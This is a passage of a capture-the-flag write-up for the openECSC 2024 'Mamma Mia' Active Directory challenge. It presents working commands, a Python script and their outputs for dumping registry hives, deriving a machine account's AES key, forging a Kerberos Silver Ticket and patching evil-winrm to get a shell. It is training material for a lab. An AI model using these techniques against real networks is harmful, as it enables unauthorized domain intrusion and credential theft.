



# openECSC 2024 - Round 3

## [misc] Mamma Mia (2 solves)

Calling all operatives! The clock is ticking on our Red Team Operation. Your expertise is needed immediately. Respond urgently!

Refer to the `README.md` file in the attachments for detailed instructions.

Author: Oliver Lyak <@ly4k>

## Table of contents

- [Overview](#overview)
- [Recommended Reading](#recommended-reading)
- [Details](#details)
  - [Participant instructions](#participant-instructions)
    - [Mission Brief](#mission-brief)
      - [Background](#background)
      - [Artifacts](#artifacts)
      - [Network](#network)
  - [Access](#access)
- [Exploitation](#exploitation)
  - [Artifacts](#artifacts-1)
    - [GPOs](#gpos)
    - [Registry Dump](#registry-dump)
  - [Foothold](#foothold)
    - [Failed NTLM Authentication](#failed-ntlm-authentication)
    - [Silver Ticket Attack](#silver-ticket-attack)
    - [WinRM with Kerberos Authentication](#winrm-with-kerberos-authentication)
      - [Evil-WinRM](#evil-winrm)
      - [Linux + PowerShell](#linux--powershell)
      - [Windows + PowerShell](#windows--powershell)
      - [pywinrm](#pywinrm)
  - [Post-exploitation](#post-exploitation)
    - [Enumeration](#enumeration)
    - [Attack Path](#attack-path)
  - [Bypassing Remote Credential Guard](#bypassing-remote-credential-guard)
  - [Partial Golden Tickets](#partial-golden-tickets)
  - [Constrained Delegation Attack](#constrained-delegation-attack)
  - [Domain Takeover](#domain-takeover)
  - [Forest Takeover](#forest-takeover)
- [Conclusion](#conclusion)

## Overview

This challenge was a Red Team Operation scenario designed for participants to exploit an Active Directory environment. The setup included 4 servers, 3 networks, and 2 domains (forest), hardened with various security mechanisms and best practices like disabling NTLM, enabling LDAP signing/channel binding, and using Remote Credential Guard.

The goal was to create a realistic and challenging scenario for participants to test their skills and knowledge of Kerberos and Active Directory exploitation techniques. All techniques and tools used are publicly available, though some are uncommon in CTFs or real-world scenarios, such as attacking Read-Only Domain Controllers. The challenge focuses on understanding the environment, the security mechanisms in place, and chaining attacks to achieve the final objective, rather than spending hours on brute-forcing, guessing passwords, or searching for hidden files. To assist participants, a network diagram and Group Policy Objects (GPOs) were provided to help understanding the environment and security mechanisms without extensive enumeration.

The ultimate objective for the participant is to obtain the highest level of privileges (Enterprise Admin) in the Active Directory forest.

The following steps outline the high-level exploitation process:

1. Perform a Silver Ticket attack using the AES key of the machine account from the registry dump.
2. Bypass Remote Credential Guard by "stealing" the logon session of `silvia.galli`.
3. Compromise the Read-Only Domain Controller (RODC) and perform a RODC Golden Ticket (partial TGT) attack against `TimeSheetSvc`.
5. Perform a Kerberos Constrained Delegation attack using `TimeSheetSvc` to impersonate `Amministratore` on the `FACTORIES` domain controller.
6. Conduct a SID History Injection Attack to obtain Enterprise Admin privileges in the `MAMMAMIA` domain.

## Recommended Reading

This writeup assumes you have a basic understanding of Active Directory, Kerberos, and common attack techniques. I recommend reading the following resources that will help understanding the concepts and techniques used in this challenge:

- [Kerberos (I): How does Kerberos work? – Theory](https://www.tarlogic.com/blog/how-kerberos-works/) by Eloy Pérez
- [Kerberos (II): How to attack Kerberos? – Practical](https://www.tarlogic.com/blog/how-to-attack-kerberos/) by Eloy Pérez
- [Attacking Read-Only Domain Controllers (RODCs) to Own Active Directory](https://adsecurity.org/?p=3592) by Sean Metcalf
- [At the Edge of Tier Zero: The Curious Case of the RODC](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06) by Elad Shamir
- [S4U2Pwnage](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c) by Will Schroeder
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) by Elad Shamir
- [Sneaky Active Directory Persistence #14: SID History](https://adsecurity.org/?p=1772) by Sean Metcalf

## Details

### Participant Instructions

This challenge involves an Active Directory setup, which includes four servers and three networks (referred to as the lab). Your objective is to retrieve the flag from `C:\Users\Amministratore\Desktop\flag.txt` located on the server at `10.10.0.10`. Please ensure you follow the instructions provided carefully.

#### Mission Brief

##### Background

Attention Operative,

In our recent covert Red Team operation against Mamma Mia Pasta Company, our team successfully infiltrated one of their off-site factories, renowned for producing the finest spaghetti known to humankind. We discreetly implanted a network device into the main factory PC, providing us with remote network access via 4G and VPN directly to the workstation where factory employees log their work hours. Initially, we gained control of the PC by booting the workstation from a live USB, mounting the disk, and deploying our C2 malware onto the mounted disk.

Despite our best efforts to maintain stealth, the situation quickly escalated when we rebooted the workstation to its standard operating system. A mistake made by our junior malware developer inadvertently caused the malware to consume excessive amounts of CPU and memory resources, which promptly alerted the remote IT department, leading them to call the factory office phone.

We quickly rushed out of the factory, intentionally leaving our network device plugged into the PC to maintain remote access. Upon returning to the back of our cargo van, we quickly performed initial enumeration using our C2 malware. However, our connection to the malware was suddenly cut short. It became evident that the IT team had stopped and removed our malware, leaving us with only network access to the computer.

Your mission, should you choose to accept it, is to reestablish access to the factory PC and navigate your way through Mamma Mia Pasta Company's complex network, moving from site to site until reaching the heart of their operations: the domain controller safeguarding the closely held secret recipe for their renowned pasta. Time is of the essence, and success requires both skill and precision.

Remember, the outcome of this mission rests in your capable hands. In bocca al lupo, agente.

##### Artifacts

Following our initial post-exploitation efforts, we successfully retrieved the following artifacts:

- A registry dump from the factory PC: ./artifacts/factws-registry/
- Group Policy Objects (GPOs) from the domain: ./artifacts/policies/

##### Network

Based on our reconnaissance, we have prepared a network diagram to help you navigate the network setup.



Once connected to the VPN, you will be able to access the factory PC at `172.16.0.2` seamlessly via the network implant. It appears that only port `5986` is open on the factory PC.

### Access

Participants were provided with a VPN connection to the lab environment, as shown in the network diagram. Only the factory PC was accessible via port `5986` (WinRM) on `172.16.0.2`.

## Exploitation

The first step is getting access to the only accessible machine, the factory PC at `172.16.0.2`. We're told that the factory PC only has port `5986` open, which is WinRM (Windows Remote Management) over HTTPS.

### Artifacts

As described in the participant instructions, we're provided with a registry dump from the factory PC and Group Policy Objects (GPOs) from the domain. The registry dump contains the `sam`, `security`, and `system` registry hives, which contain sensitive information, such as user accounts, password hashes, and other security-related data. The GPOs contain security settings and configurations that are applied to the domain and can help us understand the security mechanisms in place.

Here's the tree structure of the provided artifacts:

```bash
artifacts
├── factws-registry
│   ├── sam
│   ├── security
│   └── system
└── policies
    ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
    │   ├── GPT.INI
    │   ├── MACHINE
    │   │   └── Microsoft
    │   │       └── Windows NT
    │   │           └── SecEdit
    │   │               └── GptTmpl.inf
    │   └── USER
    ├── {6AC1786C-016F-11D2-945F-00C04fB984F9}
    │   ├── GPT.INI
    │   ├── MACHINE
    │   │   └── Microsoft
    │   │       └── Windows NT
    │   │           └── SecEdit
    │   │               └── GptTmpl.inf
    │   └── USER
    └── {8A2E9662-A0D0-4BAD-8961-1A4442799FC8}
        ├── gpt.ini
        ├── Machine
        │   ├── Applications
        │   ├── comment.cmtx
        │   ├── microsoft
        │   │   └── windows nt
        │   │       └── SecEdit
        │   │           └── GptTmpl.inf
        │   ├── registry.pol
        │   └── Scripts
        │       ├── Shutdown
        │       └── Startup
        └── User

24 directories, 11 files
```

#### GPOs

Before even attempting exploitation and wasting hours on failed attempts, it is a good idea to parse and analyze the provided GPOs. Parsing GPOs can be tricky at first, but with a bit of time and dedication, you'll be able to understand the structure and settings applied to the domain.

Each folder in the `policies` directory represents a GPO. A GPO can contain settings for both the machine and user configurations. The `GptTmpl.inf` file contains some of the settings applied by the GPO in a clear-text format.

If we take a look at the file `{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf`, we can see the following settings:

```ini
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 0
MaximumPasswordAge = 42
MinimumPasswordLength = 0
PasswordComplexity = 1
PasswordHistorySize = 0
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Version]
signature="$CHICAGO$"
Revision=1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
```

The settings in this GPO are related to password policies, Kerberos policies, and LSA settings. For instance, the policy specifies that a password cannot be older than 42 days. If you've manually inspected GPOs in an Active Directory environment before, you might recognize these settings belong to the Default Domain Controller Policy.

If we take a look at the file `{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf`, we can see the following settings:

```ini
[Unicode]
Unicode=yes
[Registry Values]
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
[Privilege Rights]
SeAssignPrimaryTokenPrivilege = *S-1-5-20,*S-1-5-19
SeAuditPrivilege = *S-1-5-20,*S-1-5-19
SeBackupPrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeBatchLogonRight = *S-1-5-32-559,*S-1-5-32-551,*S-1-5-32-544
SeChangeNotifyPrivilege = *S-1-5-32-554,*S-1-5-11,*S-1-5-32-544,*S-1-5-20,*S-1-5-19,*S-1-1-0
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeIncreaseBasePriorityPrivilege = *S-1-5-90-0,*S-1-5-32-544
SeIncreaseQuotaPrivilege = *S-1-5-32-544,*S-1-5-20,*S-1-5-19
SeInteractiveLogonRight = *S-1-5-9,*S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-548,*S-1-5-32-551,*S-1-5-32-544
SeLoadDriverPrivilege = *S-1-5-32-550,*S-1-5-32-544
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-5-32-554,*S-1-5-9,*S-1-5-11,*S-1-5-32-544,*S-1-1-0
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-549,*S-1-5-32-544
SeRestorePrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420,*S-1-5-32-544
SeSystemTimePrivilege = *S-1-5-32-549,*S-1-5-32-544,*S-1-5-19
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
[Version]
signature="$CHICAGO$"
Revision=1
```

The settings in this GPO are related to LDAP signing, SMB signing, and other privilege rights. These settings are commonly found in the Default Domain Policy.

The Default Domain Policy and Default Domain Controller Policy are the two default GPOs created when a new Active Directory domain is created.

There is however a third GPO, `{8A2E9662-A0D0-4BAD-8961-1A4442799FC8}`. This GPO also contains some other files, such as `registry.pol`. The `registry.pol` file contains some of the other settings applied by the GPO, but in a binary format. Let's first take a look at the `GptTmpl.inf` file:

```ini
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordLength = 14
LockoutBadCount = 0
[Registry Values]
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\DisablePasswordChange=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RefusePasswordChange=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\RestrictReceivingNTLMTraffic=4,2
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\RestrictSendingNTLMTraffic=4,2
MACHINE\System\CurrentControlSet\Services\LDAP\LDAPClientIntegrity=4,2
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RestrictNTLMInDomain=4,7
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LdapEnforceChannelBinding=4,2
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,2
MACHINE\System\CurrentControlSet\Control\Lsa\DisableDomainCreds=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters\SupportedEncryptionTypes=4,24
[Version]
signature="$CHICAGO$"
Revision=1
```

The settings in this GPO are related to password policies, NTLM restrictions, LDAP signing, and Kerberos encryption types. The `RestrictSendingNTLMTraffic`, `RestrictReceivingNTLMTraffic`, and `RestrictNTLMInDomain` settings are set to `2`, `2`, and `7`, respectively. These settings are related to NTLM authentication and are configured to deny NTLM authentication. This rules out the infamous pass-the-hash attack, which is a common technique used to authenticate to a machine using a password hash.

We also see `LDAPServerIntegrity`, `LDAPClientIntegrity`, and `LdapEnforceChannelBinding` settings, which are related to LDAP signing and channel binding. These settings are configured to enforce LDAP signing and channel binding, which are security mechanisms to harden LDAP communication and prevent NTLM relay attacks.

The `SupportedEncryptionTypes` setting is related to Kerberos encryption types. This setting specifies the encryption types supported by the domain controller. The value mapping can be looked up [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797). The value `24` corresponds to `AES128_CTS_HMAC_SHA1_96` and `AES256_CTS_HMAC_SHA1_96`, which are AES encryption types used by Kerberos. The `AES256_CTS_HMAC_SHA1_96` encryption type is the most secure and recommended encryption type for Kerberos, and it is also the default encryption type used by Active Directory. When not specified, the default `SupportedEncryptionTypes` value is `28`, which includes `AES256_CTS_HMAC_SHA1_96`, `AES128_CTS_HMAC_SHA1_96`, and `RC4_HMAC`. This means that all machines in this Active Directory environment only supports AES encryption types and not RC4, which is considered insecure. This will be important later.

There is another file in the GPO directory, `registry.pol`, which contains settings applied by the GPO in a binary format. The `registry.pol` file can be parsed using the `GPRegistryPolicyParser` PowerShell module that works on both Windows and Linux:

```powershell
PS > Install-Module -Name GPRegistryPolicyParser -RequiredVersion 1.0
PS > Import-Module GPRegistryPolicyParser
PS > Parse-PolFile ./registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
ValueName   : AllowProtectedCreds
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
ValueName   : RestrictedRemoteAdministration
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
ValueName   : RestrictedRemoteAdministrationType
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 2

KeyName     : SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services
ValueName   : UserAuthentication
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```

We can lookup each of these settings to understand their purpose. The `AllowProtectedCreds` setting is described [here](https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.CredentialsSSP::AllowProtectedCreds), and explains that:

> When using credential delegation, devices provide an exportable version of credentials to the remote host. This exposes users to the risk of credential theft from attackers on the remote host.
>
> If you enable this policy setting, the host supports Restricted Admin or Remote Credential Guard mode.
>
> If you disable or do not configure this policy setting, Restricted Administration and Remote Credential Guard mode are not supported. User will always need to pass their credentials to the host.

The `RestrictedRemoteAdministration` and `RestrictedRemoteAdministrationType` settings are described [here](https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.CredentialsSSP::RestrictedRemoteAdministration) and essentially require the use of Remote Credential Guard. In short, Remote Credential Guard is a security feature that protects credentials over a Remote Desktop connection. It is designed to prevent credential theft attacks and works by sending all authentication requests back to the user's device. This will be important later.

#### Registry Dump

The registry dump contains the `sam`, `security`, and `system` registry hives. As mentioned previously, these hives contain sensitive information, such as credentials for local users. If you're an experienced pentester, you might recognize these files and immediately think of dumping the password hash for the local administrator and performing a [pass-the-hash attack](https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash). However, as we saw from the GPO settings, NTLM authentication is disabled, which means that we can't authenticate using the password hash.

### Foothold

#### Failed NTLM Authentication

As a demonstration of the GPO settings, let's try the usual method of dumping password hashes from the registry hives and authenticating using the password hash. We can use the `secretsdump.py` script from the [Impacket](https://github.com/fortra/impacket/tree/master/examples) toolkit to dump password hashes from the registry hives:

```bash
$ secretsdump.py -security security -system system -sam sam LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xa0c824e58cc5808796e9ee369e239ca0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Amministratore:500:aad3b435b51404eeaad3b435b51404ee:962f1689e7b6bfaf8fa7dbb1781fd2bc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

We can then try to authenticate to the factory PC using [evil-winrm](https://github.com/Hackplayers/evil-winrm) and the `Amministratore` account with the password hash `962f1689e7b6bfaf8fa7dbb1781fd2bc`. As expected, we encounter an error when trying to authenticate using the password hash:

```bash
$ evil-winrm -i 172.16.0.2 -u 'Amministratore' -H '962f1689e7b6bfaf8fa7dbb1781fd2bc' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Error: An error of type ArgumentError happened, message is unknown type: 2577786541

Error: Exiting with code 1
```

Googling the error message `unknown type: 2577786541` doesn't yield any useful results. We could try all the other credentials, try to crack the password hashes, or try the default password, but none of these approaches will work, as NTLM authentication is disabled.

#### Silver Ticket Attack

So if we can't authenticate using the insecure NTLM protocol, what other options do we have? Well, we can try to authenticate using the secure Kerberos protocol.

When authenticating using Kerberos, a user requests a ticket-granting ticket (TGT) from the Key Distribution Center (KDC) (the domain controller in Active Directory) and then uses the TGT to request a service ticket from the KDC. The service ticket is then presented to the service to authenticate the user. In this case, we don't have network access to the domain controller, so we can't request any Kerberos tickets.

However, a service ticket is encrypted with a key that only the domain controller and the service account know. This key is derived from the service account's password. In this case, the service we want to access is WinRM, and the service account is the machine account of the factory PC.

The `secretsdump.py` command used earlier also outputs the machine account credentials:

```bash
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:c058534e5e05469cc698b6859b787063a88e5163cfe28b55bca8b043584850707dbcaf532002cec21b84caf740013ee5c69bbfa3dd854226816975775328adb68c96f3c2b11e74fa84c63a9a0fa91fd88518589b35c1dbb2219dc1f002134f3145565f15cf890f6d9c21caadacf00b55801e3ec84c572760a4830d7762857138ebba798d1c073cf1d9f583d801c3ab61e7c0cc1f5e5c39a9bff01e377e46de41999244ade52522b62feebcc281a9a9d53ea34ebae842824fcc9b5ec80358867baf74e09049f31ece0223edde04f0ddff4aa4a90688977eeea1fb3c2d016e03d0ef1dc5544e5d86b56eb4403b23e9eb72
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3fcd6691d04caf52f495112380ca5cdf
```

This should allow us to forge a service ticket ourselves and encrypt it with the credentials of the machine account. This attack is known as a [Silver Ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket).

If we just follow many of the examples online, we should need the NT hash (`3fcd6691d04caf52f495112380ca5cdf`), the domain SID, the domain name, the Service Principal Name (SPN), and an arbitrary username.
**But**, as we discovered earlier in the GPO settings, RC4 encryption is disabled, which means that we can't use RC4 encryption that uses the NT hash to forge the service ticket. We need to use an AES key.

We do not yet know the domain name, the domain SID, or the machine account's name used for the SPN. We can however obtain all of this information from the registry dump. One way is to use Mimikatz to dump out this information, as shown below:

.

We're still missing the AES key though. Googling a bit more should reveal [this blog post](https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html) by snovvcrash. It explains how the AES key can be calculated based on the domain name, hostname and plaintext machine account password (revealed in the `secretsdump.py` output).

As I like to do everything from Linux when possible, I created a [script](./writeup/aes_dump.py) based on both the source code of Mimikatz and the aforementioned blog post to extract and calculate the necessary information from the registry dump using Python and the `impacket` library.

```python
from impacket.examples.secretsdump import LSASecrets, LocalOperations, LSA_SECRET, LSA_SECRET_BLOB
from impacket.ldap.ldaptypes import LDAP_SID
from impacket.krb5.crypto import string_to_key
from impacket.krb5 import constants

def unicode_str_decode(unicode_str):
    return unicode_str[8:-2].decode('utf-16-le')

local_operations = LocalOperations(f"./artifacts/factws-registry/system")
boot_key = local_operations.getBootKey()

secrets = LSASecrets(f"./artifacts/factws-registry/security", boot_key)
secrets._LSASecrets__getLSASecretKey() # __getLSASecretKey() is a private method, so we need to call it directly
key = secrets._LSASecrets__LSAKey

machine_name = unicode_str_decode(secrets.getValue("Policy\\PolAcDmN\\")[1])
domain = unicode_str_decode(secrets.getValue("Policy\\PolPrDmN\\")[1])
domain_sid = LDAP_SID(secrets.getValue("Policy\\PolPrDmS\\")[1]).formatCanonical()
fqdn = unicode_str_decode(secrets.getValue("Policy\\PolDnDDN\\")[1])

enc_machine_password = secrets.getValue("Policy\\Secrets\\$MACHINE.ACC\\CurrVal\\default")[1]

record = LSA_SECRET(enc_machine_password)
tmpKey = secrets._LSASecrets__sha256(key, record['EncryptedData'][:32])
plainText = secrets._LSASecrets__cryptoCommon.decryptAES(tmpKey, record['EncryptedData'][32:])
record = LSA_SECRET_BLOB(plainText)
machine_password = record['Secret']

salt = '%shost%s.%s' % (fqdn.upper(), machine_name.lower(), fqdn.lower())
fixedPassword = machine_password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
key = string_to_key(int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value), fixedPassword, salt.encode())
key = key.contents.hex()

print(f"Machine Name: {machine_name}")
print(f"Domain: {domain}")
print(f"Domain SID: {domain_sid}")
print(f"FQDN: {fqdn}")
print(f"AES256 Key: {key}")
```

Running this script will print out all the values needed for crafting a Silver Ticket using the AES key.

```bash
$ python3 aes_dump.py
Machine Name: factws
Domain: FACTORIES
Domain SID: S-1-5-21-3201321165-582068547-786307507
FQDN: factories.mammamia.local
AES256 Key: fe9004488cd6c90da56a44a4c1a862742214d191e6a1ef46c3d2b21addbc568f
```

We can then use the `ticketer.py` script from Impacket to forge a Silver Ticket using the information we obtained from the registry dump:

```bash
$ ticketer.py -spn HTTP/factws.factories.mammamia.local -domain factories.mammamia.local -domain-sid S-1-5-21-3201321165-582068547-786307507 -aesKey fe9004488cd6c90da56a44a4c1a862742214d191e6a1ef46c3d2b21addbc568f attacker
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for factories.mammamia.local/attacker
[*]  PAC_LOGON_INFO
[*]  PAC_CLIENT_INFO_TYPE
[*]  EncTicketPart
[*]  EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]  PAC_SERVER_CHECKSUM
[*]  PAC_PRIVSVR_CHECKSUM
[*]  EncTicketPart
[*]  EncTGSRepPart
[*] Saving ticket in attacker.ccache
```

#### WinRM with Kerberos Authentication

Now that we have a Silver Ticket, we can use it to authenticate to the factory PC using Kerberos authentication. But how do we get a shell using Kerberos authentication over the WinRM protocol?

I will be showing a few methods to authenticate and get a shell using Kerberos authentication over WinRM.

If you're running on Linux, you will need a few prerequisites for using the methods I'll be showing.

First, the `krb5-user` package must be installed. This package provides the GSSAPI library for some of the tools we will be using.

Then, we need to modify `/etc/krb5.conf` to include the domain information:

```ini
[libdefaults]
default_realm = FACTORIES.MAMMAMIA.LOCAL
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true

[realms]
FACTORIES.MAMMAMIA.LOCAL = {
  kdc = 1.2.3.4
}

[domain_realm]
.factories.mammamia.local = FACTORIES.MAMMAMIA.LOCAL
```

Notice that we don't have access to a domain controller, and since we will be using the Silver Ticket, we don't need to specify the KDC. Later when we start proxying traffic, it can be a good idea to specify a KDC.

We should add also `factws.factories.mammamia.local` to our `/etc/hosts` file and point it to `172.16.0.2`, as the upcoming methods use the hostname to find the ticket in your Kerberos cache - although this can be overridden for some tools.

Lastly, we need to set the `KRB5CCNAME` environment variable to the path of the Silver Ticket we created:

```bash
export KRB5CCNAME=attacker.ccache
```

When using `krb5-user` and the GSSAPI library, we can set the `KRB5_TRACE` environment variable to `/dev/stdout` to see the Kerberos interactions. This can be useful for troubleshooting.

##### Evil-WinRM

Evil-WinRM supports Kerberos authentication using the `-r <domain>` flag.

If we now attempt to authenticate to the factory PC using the Silver Ticket and `evil-winrm` with Kerberos authentication, we should however see that it still fails:

```bash
$ evil-winrm -i factws.factories.mammamia.local -u '' -p '' -S -r 'factories.mammamia.local'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Warning: User is not needed for Kerberos auth. Ticket will be used

Warning: Password is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint

Error: An error of type ArgumentError happened, message is unknown type: 2577786541

Error: Exiting with code 1
```

In fact, if we set the `KRB5_TRACE=/dev/stdout` environment variable (used for troubleshooting `krb5-user`), we can see that it doesn't even attempt to use the ticket.

The reason for this is that `evil-winrm` doesn't support Kerberos authentication + SSL. In the [source code](https://github.com/Hackplayers/evil-winrm/blob/master/evil-winrm.rb#L283), it is either Kerberos authentication or SSL, but not both.

If we insist on using `evil-winrm`, we can patch it like so:

```diff
diff --git a/evil-winrm.rb b/evil-winrm.rb
index c197345..fda61ba 100644
--- a/evil-winrm.rb
+++ b/evil-winrm.rb
@@ -291,6 +291,16 @@ class EvilWinRM
                   client_cert: $pub_key,
                   client_key: $priv_key
                 )
+              elsif !$realm.nil?
+                $conn = WinRM::Connection.new(
+                  endpoint: "https://#{$host}:#{$port}/#{$url}",
+                  user: '',
+                  password: '',
+                  no_ssl_peer_verification: true,
+                  transport: :kerberos,
+                  realm: $realm,
+                  service: $service
+                )
               else
                 WinRM::Connection.new(
                   endpoint: "https://#{$host}:#{$port}/#{$url}",
```

If we now try to authenticate to the factory PC using the new Silver Ticket and the patched `evil-winrm`, we should get a nice shell:

```bash
$ ruby evil-winrm-patched.rb -i factws.factories.mammamia.local -u '' -p '' -S -r 'factories.mammamia.local'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
[1685714] 1715897648.811351: ccselect module realm chose cache FILE:attacker.ccache with client principal attacker@FACTORIES.MAMMAMIA.LOCAL for server principal HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL
[1685714] 1715897648.811352: Getting credentials attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL using ccache FILE:attacker.ccache
